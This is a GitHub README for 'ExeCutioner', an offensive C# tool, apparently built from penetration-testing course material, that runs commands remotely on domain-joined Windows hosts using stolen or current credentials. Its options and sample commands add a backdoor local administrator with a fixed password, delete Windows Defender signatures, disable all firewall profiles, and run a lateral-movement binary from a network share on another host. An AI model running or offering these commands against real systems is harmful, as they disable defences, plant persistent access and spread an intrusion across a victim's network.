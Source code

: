 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164892286-a8659b4f-d34b-408a-a7cb-2bee9295f400.png)

Domain-joined Code Executioner

This is a C-Sharp tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It was heavily inspired by the OSEP course and leverages code and ideas from https://github.com/chvancooten/OSEP-Code-Snippets
                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current system token and turn off av
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /syscreds true /nofw true

//Authenticate to target with current system token and execute command
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current system token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
- Heavily inspired by "[chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Invaluable knowledge from the "[OSEP Course](https://www.offensive-security.com/pen300-osep/)"
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


